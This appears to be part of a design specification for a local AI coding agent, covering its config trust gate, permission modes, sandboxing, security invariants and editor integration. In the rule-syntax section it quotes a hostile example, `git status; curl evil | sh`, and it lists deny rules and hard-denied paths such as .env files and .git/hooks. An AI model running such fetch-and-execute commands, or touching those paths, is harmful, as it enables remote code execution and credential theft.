| Consecutive repeated lines, replaced by a count | Every failing test, with its full output |
| Per-test pass lines, when the run has a summary | Errors, warnings and stack traces |
| `make` enter and leave directory lines | Anything from `Read`, which is never filtered |

**Cut (2026-11-13):** T2.10 cut 46% success against 64% without it, for 4% fewer prompt tokens (`evals/results/qwen3.5-4b.t2-10*.json`). Repeat reads return the full content again, and no outside-change notice is added.

### Tools at scale

MCP servers can exceed a small window on tool schemas alone. Decide once, at session start:

- Total schema size ≤ 10% of `C`: **direct** mode, with each tool in `tools`.
- Otherwise: **indexed** mode. `tools` holds only the built-ins plus `ToolSearch` (returns matching schemas as text) and `CallTool` (`{name, arguments}`), and the prompt lists names with one-line descriptions.

In indexed mode, permissions, hooks and logs act on the **inner** tool name, never `CallTool`, and arguments are validated against the inner schema.

### Repo map

Tree-sitter extracts symbols (file, signature, line). Respect `.gitignore`, cache by mtime, and fit a byte budget, preferring files near recent edits. It's exposed as a tool so the prefix stays stable. Start with Rust, Python, TypeScript, Go and C/C++.

**Cut (2026-11-12):** T2.8 added 40% more prompt tokens with no gain in success, so it isn't built. `tree-sitter` stays out of the dependencies.

## 8. Config, trust and sessions

### Layers



Layers: built-in defaults, user `~/.config/praxis/config.toml`, project `.praxis/config.toml`, environment `PRAXIS_*`, CLI flags. Later layers win. Lists of permission rules merge; scalars replace. Errors name the file, key and problem. Unknown keys are errors, so only keys something reads exist: each task adds its own. The project layer is untrusted and passes through the trust gate below.

Variables and flags use dotted keys: `PRAXIS_AGENT__MAX_TURN_REQUESTS=20` (double underscore for a dot) and `--config-override agent.max_turn_requests=20`. A value is read as TOML if it parses, else as a string, so `default_model=qwen3.5-4b` works. Keys holding a dot, such as a profile pattern `qwen3.5*`, can only be set in a file. `PRAXIS_LOG_CONTENT` is not a config key.

```toml
default_model = "your-model"

[lmstudio]
base_url = "http://localhost:1234"
api_key_env = "LM_API_TOKEN"      # optional; names the variable holding the token
context = 32768                   # optional; context to load a model with, over the profile's

[anthropic]                       # opt-in, user config or flags only (§10)
enabled = false
api_key_env = "ANTHROPIC_API_KEY"
effort = "medium"

[models.sonnet]                   # aliases for --model and agents' `model:`
model = "anthropic/claude-sonnet-5-5"
[models.local]
model = "lmstudio/qwen3.5-4b"

[agent]
max_turn_requests = 50
auto_load = true

[context]
mask_keep_turns = 10
filter_output = true                 # on since the T2.11 eval (no drop in success)

[permissions]
mode = "ask"                      # read-only | ask | auto-edit | full-access (user config only)
allow = ["Bash(cargo test*)"]
deny = ["Read(**/.env*)"]

[sandbox]
mode = "on"                       # on | off
network = false
extra_write = []
extra_read = []

[mcp.filesystem]
command = "mcp-server-filesystem"
args = ["."]
```

Project MCP servers may also come from `.mcp.json` in Claude Code's shape, with or without the `mcpServers` wrapper.

### Trust

> [!WARNING]
> A cloned repository is hostile until approved. **Project config can always narrow, but needs approval to widen.**



| Project config item | Without approval |
|---|---|
| `deny` rules, model choice (within backends the user enabled), stricter mode | Applied |
| `allow` rules, wider mode | Ignored with a notice |
| MCP servers, hooks, plugins | Not started |
| `lmstudio.*`, `anthropic.*`, `sandbox.*` | **Never honoured from project config**, even when approved |
| `AGENTS.md`, `CLAUDE.md`, rules, skills, commands, agents (§12) | Loaded as context; they can't grant anything |

Approval stores the SHA-256 of the widening content in `~/.local/share/praxis/trust.json` (or under `$XDG_DATA_HOME`), keyed by the project config's path. Any change requires re-approval. In non-interactive mode, unapproved items stay inactive. A refusal isn't stored, so the next interactive run asks again, and a store that can't be parsed is a config error, never an empty store.

The widening items so far are `permissions.allow`, `agent.auto_load = true` and a `permissions.mode` wider than the user's. A project's `permissions.mode = "full-access"` is refused outright, never offered for approval (T10.7). They are approved or refused together: the prompt shows them as TOML, and the hash covers exactly that text. Claude Code's `~/.claude/settings.json` is the user's own file, so its `permissions.allow`, `permissions.deny` and `hooks` apply without a trust prompt: approved by the project owner on 2026-11-12. Project `.claude/settings.json` and `settings.local.json` widen through this gate like `.praxis/config.toml`, with `hooks` added to the approved TOML (§12, T9.8). MCP servers and plugins join this list in their own tasks. The hostile fixture in `crates/praxis-core/tests/fixtures/hostile-repo` sets every item, and each task that adds one extends it.

### Sessions

- `~/.local/share/praxis/sessions/<id>.jsonl`: a header line, then one JSON record per line, append-only, mode `0600`. The header is `{"session":{"workspace":"<canonical path>","started":<Unix seconds, UTC>}}`. Tolerate a truncated last line on load, since a crash can cause one.
- Session index: listing a workspace's sessions reads each log's header, its mtime (last activity, since logs only grow) and its first user line (the title, trimmed), newest first. Logs with no readable header, or a truncated one, are skipped and belong to no workspace.
- Folders (T10.5): `<dir>/folders.json` maps session id to folder name, a JSON object beside the logs; the logs never change. A session in no folder has no entry. Names are trimmed, at most 64 characters, with no control characters; an empty name removes the entry. A missing or corrupt file reads as no folders. Writes go through a temp file and a rename. Deleting a session removes its entry. The listing carries `folder` (null when unfiled).
- Resume (`--resume <id>`) rebuilds history from the log; `--resume` with no ID picks the newest session of the current workspace. The system prefix is rebuilt fresh, not logged. A failed log write stops the turn (`LogFailed`) before another request or tool runs.
- Before any `Write` or `Edit`, save the original in `<id>/checkpoints/`. `/undo` restores the last turn's files. Copies are kept for the last 20 turns; older turns and their copies are deleted when a new turn begins (`CHECKPOINT_TURNS`). Undo history is not persisted, so a resumed session deletes the copies left by earlier runs when it starts. Session logs are kept until the user removes them. Bash side effects can't be undone, and the UI must say so.
- Sessions contain source code and tool output. They never leave the machine.

## 9. Permissions and sandbox

### Decision order

For each tool call, the first match from the top wins:



`read-only` mode's denials are checked before allow rules, so an allow rule can't widen that mode.

| Mode | Read-only tools | `Write`, `Edit` | `Bash`, MCP |
|---|---|---|---|
| `read-only` | allow | deny | deny |
| `ask` | allow | ask | ask |
| `auto-edit` | allow | allow in workspace | ask |
| `full-access` | allow | allow in workspace | allow, except a `Bash` command with compound syntax or hard-denied text, which asks |

`full-access` (T10.7, owner approval 2026-11-13) loosens §10 for `Bash` and MCP calls: they run without asking, still under every deny rule and hard denial, which are checked first. Only the user can select it: in `config.toml`, a `--config-override`, or the VS Code setting `praxis.permissions.mode` (machine scope, so a workspace can't set it). A project's `permissions.mode = "full-access"` is dropped with a notice, approved or not. Compound `Bash` commands still ask because the allow check can't see inside them; the sandbox still applies.

A hook `allow` skips the prompt but can't override `deny` rules or hard denials.

### Rule syntax

Compatible with Claude Code's: `Tool`, `Tool(glob)`, `mcp__server__tool`, and `mcp__server` for all of a server's tools. Examples: `Bash(git status*)`, `Edit(src/**)`, `Read(**/.env*)`.

**`Bash` allow rules only match simple commands.** Anything containing `;`, `&`, `|`, `` ` ``, `$(`, `>`, `<`, a newline or `${` never matches an allow rule, and always asks. Otherwise `Bash(git *)` would permit `git status; curl evil | sh`. Deny rules match against the whole string and every simple segment. A command whose text mentions a hard-denied path (`.git/hooks`, `.git/config`, `git config`, `hooksPath`, `.praxis`, `.mcp.json`, user config) never matches an allow rule either.

File rules match the path relative to the workspace: `file_path` for `Read`, `Write` and `Edit`, and `path` for the search tools. Deny rules check both the path as written and as resolved, so `..` and symlinks can't step around them. Allow rules check only the resolved path. A deny rule on a file doesn't stop a `Grep` over its folder.

### Permission prompts

Prompts are a limited resource, because developers' review effort falls over a session, and confirming a request isn't the same as verifying it (see [RESEARCH.md](RESEARCH.md#developers-in-the-ide)). So:

- Always show the **full parameters**: the exact command, path or MCP arguments. Never only a summary.
- Allow rules exist to remove routine prompts, so that the prompts left are worth reading.
- Don't offer "always" for compound commands, or for anything outside the workspace.
- Rule-based risk labels (T5.8) may direct attention, such as for CI, dependency or auth paths. Never show a "safe" label or any verdict that suggests a change was checked.

### Workspace confinement

Resolve with `canonicalize` on the deepest existing ancestor, so symlinks and `..` can't escape; check containment after resolution. Outside the workspace, reads ask and writes need an explicit per-path approval, except for `extra_read` and `extra_write`. Until the permissions and config tasks add those paths, tools refuse everything outside the workspace. `..` below a missing folder and dangling symlinks are refused too, because they can't be resolved.

### Sandbox

All `Bash` commands run as `praxis sandbox-exec --policy <json> -- /bin/sh -c <command>`. Using a helper avoids `pre_exec` in a multi-threaded parent, and needs no `unsafe`.



- **Writes:** workspace, a per-session temp directory (the command's `TMPDIR`), `/dev/null` and similar devices, `extra_write`.
- **Reads:** allowlist of system directories (`/usr`, `/etc`, `/opt`, `/proc`, `/dev` and the `/bin` and `/lib` links), workspace, toolchain directories (`CARGO_HOME`, `RUSTUP_HOME`, `~/.cargo`, `~/.rustup` and the other toolchain variables), `extra_read`. `~/.ssh` and similar stay unreadable, unlike a write-only sandbox. Toolchain directories are never writable, because `~/.cargo/bin` runs later outside the sandbox; Cargo works with a read-only `CARGO_HOME` when nothing needs downloading.
- **Network:** TCP bind and connect blocked unless `network = true`. The helper requires Landlock ABI 4 (Linux 6.7) or later either way.
- **Environment:** allowlisted variables only (`PATH`, `HOME`, `LANG`, `TERM`, toolchain variables). `*_TOKEN`, `*_KEY` and `*_SECRET` are always removed.
- **Fail closed.** If Landlock isn't fully enforced, refuse to run commands and explain how to set `sandbox.mode = "off"` in user config. Never fall back silently.

`// shortcut: Landlock doesn't restrict UDP or all socket types, so "no network" isn't absolute; add seccomp or a network namespace if this becomes a real threat.`

`// shortcut: Landlock is allowlist-only and can't exclude a subdirectory of a writable tree, so an approved Bash command can still write to .git/hooks or .praxis; run git with hooks disabled or mount those paths read-only in a namespace if this proves exploitable.`

Because of that limit, hard denials (§10) are fully enforced for `Write` and `Edit` only. For `Bash`, they are enforced by the prompt: a command that mentions a hard-denied path never matches an allow rule, and the threat model must state the gap, including indirect writes that the text check can't see.

`praxis` and `xtask` both handle `sandbox-exec` before the async runtime starts, so restriction happens in a single-threaded process; it exits 126 when it refuses. Evals run the same sandbox nested inside their bwrap container. `sandbox-exec` must be hidden from `--help`. It runs what it's told, and only applies restrictions, so it grants nothing new.

MCP servers and hooks are **not** sandboxed in the first version, because they are user-approved programs that often need access. Say so in the approval prompt and threat model.

## 10. Security invariants

> [!CAUTION]
> Every one needs a test. Never weaken these without human approval.

1. Nothing the model outputs or reads can change permissions, config or trust.
2. A repository can't run code or widen permissions without approval, and changed content requires re-approval.
3. `Bash` never runs outside the sandbox unless the user turned it off in **user** config or a flag.
4. Write and edit paths are checked after symlink resolution.
5. **Hard denials,** even under `auto-edit` and `full-access` (§9, T10.7): `.git` (the file or folder, at any depth, so submodule `.git/modules/*/hooks` and worktree `.git` files count), `.praxis/**`, `.mcp.json`, and user config. Otherwise the agent could approve itself or plant code that runs later. `Bash` has a documented limit (§9).
6. Secrets don't appear in logs, session records or child environments. Keys are referenced by variable name.
7. Tool output, MCP results and file contents are treated as data: never parsed for tool calls, and shown escaped in UIs.
8. No network traffic except to the configured LM Studio server, the Anthropic API when enabled in user config or a flag, MCP servers, and whatever the user approves.
9. Plugins are pinned to a commit, and what they can run is shown before enabling.
10. In the webview, model text never becomes raw HTML (§11).
11. An MCP tool whose name, description or schema changed since approval isn't offered to the model until it's approved again (§13).
12. Project config, plugins and agent definitions can't enable a cloud backend or change its URL or key variable. An agent's `model` that resolves to a disabled backend is an error, never a silent switch (ADR 0004).

## 11. Front ends

### CLI

```
praxis [PROMPT]             one-shot if PROMPT or stdin is given; otherwise REPL
praxis --resume [ID]        resume a session
praxis models               list models and effective context
praxis acp                  ACP agent over stdio
praxis plugin <install|list|enable|disable|remove>
praxis sessions [--json]    list this workspace's sessions; starts no model or MCP server
praxis sessions --folder <ID> <NAME>    move a session into a folder; an empty NAME removes it from its folder
praxis sandbox-exec         hidden helper
```

Flags: `--model`, `--mode`, `--config-override KEY=VALUE`. So far only `--model` and `--config-override` exist.

REPL commands: `/undo`, `/exit`, and plan-first (T5.9). `/plan <task>` runs the task under read-only mode, so `Write`, `Edit`, `Bash` and MCP tools are refused whatever the rules or the model say, and the prompt shows `(plan)` until `/execute`. `/execute` switches back to the configured mode and asks the model to carry out the plan. Only the developer's commands change the mode; no tool can. Without `--model`, the first loaded model is used. Piped stdin can't answer prompts: only a terminal can approve, so non-interactive runs deny. Exit codes: 0 success, 1 runtime or provider error, 2 usage or config error, 130 cancelled.

After a turn that called any tool, the CLI prints a turn summary to stderr (`praxis_core::summary`, T5.7): files changed by successful `Write`/`Edit` calls, Bash commands with exit codes, and whether a test command ran and passed. It reads only the tool log, so it says "No tests ran this turn" even when the model claimed otherwise. Commands that never finished show `not finished`. Test commands are matched by name (`cargo test`, `pytest`, `npm test`, `scripts/verify`, ...).

Ctrl-C cancels the turn once and exits the second time. When stdout isn't a terminal, output plain text.

### ACP mode

Transport is stdio only: newline-delimited JSON-RPC, one message per line. stdout is protocol only, stderr is logs.

Start from `Agent.v1()` with a `Stdio` transport and `Builder` handlers. Handlers, transports and connection futures must be `Send`. The crate has no worked agent example on its docs.rs front page, so read its `concepts` module and `examples/simple_agent.rs`.



| Direction | Methods |
|---|---|
| Implement | `initialize`, `authenticate` (no-op: no auth methods), `session/new`, `session/load`, `session/list`, `session/prompt`, `session/cancel`, `session/set_mode` |
| Send | `session/update`, `session/request_permission` |
| Use if advertised | `fs/read_text_file` (so `Read` sees unsaved editor buffers) |

| `AgentEvent` | `session/update` variant |
|---|---|
| `TextDelta` | `agent_message_chunk` |
| `ThinkingDelta` | `agent_thought_chunk` |
| `ToolStarted` | `tool_call` (`toolCallId`, `title`, `kind`, `status`) |
| `ToolFinished` | `tool_call_update` (`status`, `content`) |
| `Usage` | `usage_update` (`used`, `size`) |
| Commands | `available_commands_update` after `session/new` and `session/load`: each user-invocable command as `name` (`<plugin>:<name>`), `description`, `_meta.source` (plugin, or the directory of a standalone skill). Sent only when the list is non-empty. The panel's `/` autocomplete filters it. |
| `Notice` | `notice`, if the client has `session.notices`; otherwise a message chunk |
| `Compaction` | `compaction_update`, if the client has `session.compaction` |
| `Subagent` (T10.8) | its `TextDelta` becomes `tool_call_update` content on the `Agent` call (the text so far, replacing the last); its `ToolStarted`, `ToolFinished` and `PermissionRequest` go out as above with `_meta.praxis.parentToolCallId` naming that call; a permission title is `<subagent type>: <tool title>` |

`_meta.praxis` carries the praxis-specific fields a plain client ignores: `subagent` (the subagent's type) on an `Agent` `tool_call`, and `parentToolCallId` on a subagent's tool call or update. Plain ACP clients see a flat list, with the subagent's text only on its `Agent` call.

Stop reasons: `end_turn`, `max_tokens`, `max_turn_requests`, `refusal`, `cancelled`.

**Cancellation:** on `session/cancel`, stop model requests and tools at once, send final updates *before* answering the prompt, and respond with `cancelled`. Treat aborted-operation errors as cancellation rather than failures.

Checked against `v1::schema` in schema crate 1.15.1 (T0.5, [ADR 0003](adr/0003-keep-acp-for-the-front-end-protocol.md)):

- **Permission option kinds:** `allow_once`, `allow_always`, `reject_once`, `reject_always`. The answer's `outcome` is `selected` with an `optionId`, or `cancelled`. After `session/cancel`, the client must answer pending requests with `cancelled`.
- **Tool `kind`:** `read`, `edit`, `delete`, `move`, `search`, `execute`, `think`, `fetch`, `switch_mode`, `other`. `other` is the default, and unknown values parse as `other`.
- **Diff content:** a `content` item on a tool call or its update, `{"type": "diff", "path", "oldText", "newText"}`. `path` is absolute, and `oldText` is omitted or `null` for new files. A permission request can carry it, which edit review needs. `Write` and `Edit` permission requests carry one (T5.4), and the extension opens it in VS Code's diff editor. Both sides are untitled documents, so the review never writes the file; the answer still decides.
- **`mcpServers`:** required on `session/new` and `session/load`. It may be empty or `null`, but omitting it is a parse error. Agents must support stdio servers; `http` and `sse` servers are only allowed if the agent advertises them in `mcpCapabilities`. If `session/new` passes MCP servers, treat them as user-approved, since they come from the user's editor.

Handlers run inside the connection's dispatch loop, and awaiting a client response in one deadlocks. The `session/prompt` handler spawns its work and keeps the responder.

So far (T5.1): `session/set_mode` isn't implemented, sessions run in the launch directory whatever `cwd` says, `mcpServers` from the client are ignored, only text prompt blocks reach the model, `notice` always falls back to a message chunk and compaction isn't shown. `session/load` replays user and assistant text, and each tool call with its result, in order. `session/list` (T5.11) needs a `cwd` and returns only that workspace's sessions, with the first prompt as `title` and the log's mtime as ISO 8601 `updatedAt`; it advertises `sessionCapabilities.list`, uses the stable v1 schema (no unstable feature), and does no pagination (`nextCursor` is always null). The VS Code sessions view (T5.12) lists through `praxis sessions --json` run in the workspace, the same way the Plugins view runs `praxis plugin list --json`, so a refresh starts no model or MCP server. It opens a session in a new panel through `session/load`. Turns that end in a provider or log failure, or a detected loop, answer with a JSON-RPC error rather than a stop reason.

### Developer experience requirements

These apply to every front end where they fit. Evidence is in [RESEARCH.md](RESEARCH.md#developers-in-the-ide).

| Requirement | Rule | Tasks |
|---|---|---|
| **Status** | Always show the phase (loading model, processing prompt, generating, running tool), elapsed time and context used. `/v1` has no prompt-progress events, so show elapsed time rather than a made-up progress bar | T5.3 |
| **Layered detail** | One line per tool call, with output on expansion. Never stream raw output into the main view | T5.3 |
| **Steering** | Stop works at any moment, and the next prompt continues from consistent history, with interrupted calls marked as cancelled | T1.7 |
| **Plan first** | `/plan` runs a turn in read-only mode and asks for a plan with assumptions. Carrying it out is a separate action by the developer | T5.9 |
| **Turn summary** | Built from the tool log, never the model's claims: files changed, commands run, exit codes, and a plain statement if no tests ran | T5.7 |
| **Change-set review** | Overview (files, lines, risk labels), then file (native diff), then chunk, with free navigation between them. Each `Edit` call is one chunk, shown with the reasoning that produced it. Revert per file from checkpoints | T5.8 |
| **No false assurance** | Never show a score, tick or wording implying that code is correct or secure unless a tool actually verified it | All |
| **No constant suggestions** | Inference only runs when the developer asks for it | All |

**System prompt contract (T2.13).** Keep it short, since it sits in the prefix. Ask the model to state assumptions, say when it's unsure, disagree when a request looks wrong, make small steps, and report only what it has verified. Models won't always comply, so the turn summary doesn't depend on it.

### VS Code extension

See [ADR 0001](adr/0001-rust-only-with-minimal-vscode-glue.md).



Build:

- Extension crate: `wasm32-unknown-unknown`, `wasm-bindgen --target nodejs`, and `main` in `package.json` points at the generated JS.
- UI crate: `wasm-bindgen --target deno`, loaded by the HTML shell. It starts on import; `web` would need an init script (ADR 0001).
- Bindings: `#[wasm_bindgen(module = "vscode")]` and `module = "child_process"`, only for what's called.
- ACP types: try the `agent-client-protocol` crate on wasm through its `Channel` or `ByteStreams` transport, keeping `JsValue` out of the connection (`JsValue` isn't `Send`). If this is too heavy, use only its schema types and frame lines by hand.
- `cargo xtask vsix` zips `extension.vsixmanifest`, `[Content_Types].xml` and `extension/**`. Linux x64 first, with the native binary at `extension/bin/`.

Features:

| Feature | Mechanism |
|---|---|
| Chat panel | Webview view with streaming output and a stop button |
| Edit review | On a permission request for `Write` or `Edit`, open the native diff editor via `vscode.diff`, with accept and reject |
| Other permissions | Prompt in the panel, including "always" |
| Tool activity | Collapsible items with status |
| Model picker | Backed by `models` data and config |
| Context | Active file and selection attached as prompt resources; diagnostics on request |
| Output channel | Praxis stderr |

Security and accessibility requirements:

- `capabilities.untrustedWorkspaces.supported = false`.
- `praxis.binaryPath` must have **`"scope": "machine"`**, so a repository's `.vscode/settings.json` can't point it at a malicious binary. The same applies to any setting that affects execution.
- Webview CSP: `default-src 'none'; script-src ${cspSource} 'wasm-unsafe-eval'; style-src ${cspSource}; connect-src ${cspSource}` (`connect-src` is how the glue fetches the wasm, ADR 0001). No inline scripts; `localResourceRoots` limited to the extension directory.
- Render model text through `pulldown-cmark` with **raw HTML escaped**, not passed through. Only allow `http`, `https` and `vscode` link schemes, opened with the editor's confirmation.
- Validate every message between webview and extension against typed enums.
